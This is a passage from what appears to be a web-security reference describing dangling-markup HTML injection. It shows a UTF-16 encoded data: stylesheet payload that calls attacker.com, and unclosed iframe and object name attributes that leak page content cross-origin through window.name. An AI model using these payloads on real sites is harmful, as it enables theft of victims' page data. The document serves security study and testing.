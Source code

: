 The same can be done by loading a **stylesheet** from `data:` like this ([encode](https://gchq.github.io/CyberChef/#recipe=Encode_text\('UTF-16LE%20\(1200\)'\)URL_Encode\(true\)\&input=KntiYWNrZ3JvdW5kLWltYWdlOiB1cmwoaHR0cHM6Ly9hdHRhY2tlci5jb20/)):

{% code title="Encoded prefix" %}
```css
*{background-image: url(https://attacker.com?
```
{% endcode %}

{% code title="Payload" overflow="wrap" %}
```html
<link rel="stylesheet" href='data:text/css;charset=utf-16,%2A%00%7B%00b%00a%00c%00k%00g%00r%00o%00u%00n%00d%00%2D%00i%00m%00a%00g%00e%00%3A%00%20%00u%00r%00l%00%28%00h%00t%00t%00p%00s%00%3A%00%2F%00%2F%00a%00t%00t%00a%00c%00k%00e%00r%00%2E%00c%00o%00m%00%3F%00
```
{% endcode %}

Although note that at this point, you are likely able to leak content through [css-injection.md](../css-injection.md "mention") as well.

#### Iframe name attribute

When you are able to create an iframe with a remote source, the `name=` attribute is leakable cross-origin by reading the `window.name` variable as the attacker. This may include newlines, even on Chromium, because it is not a URL or target:

{% code title="HTML Source" %}
```html
<iframe src="https://attacker.com" name='
<p>Your email: victim@example.com</p>
<footer>That's all folks!</footer>
```
{% endcode %}

{% code title="Attacker Console" %}
```javascript
> window.name
'\n<p>Your email: victim@example.com</p>\n<footer>That'
```
{% endcode %}

This same attack works with `<object data=>` and `<embed src=>` tags too, which may have a more allowing CSP.

If the CSP doesn't allow any attacker's sources, but the page is iframable, we can take a trick from the [#nested-iframe](postmessage-exploitation.md#nested-iframe "mention") postMessage exploits by using `about:blank` and hijacking the iframe to read its name. This works because the name property is preserved across navigations.

{% embed url="https://portswigger.net/research/bypassing-csp-with-dangling-iframes" %}
Article explaining this trick of stealing the name with nested iframes
{% endembed %}

{% code title="Injection" %}
```html
<object data="about:blank" name='
```
{% endcode %}
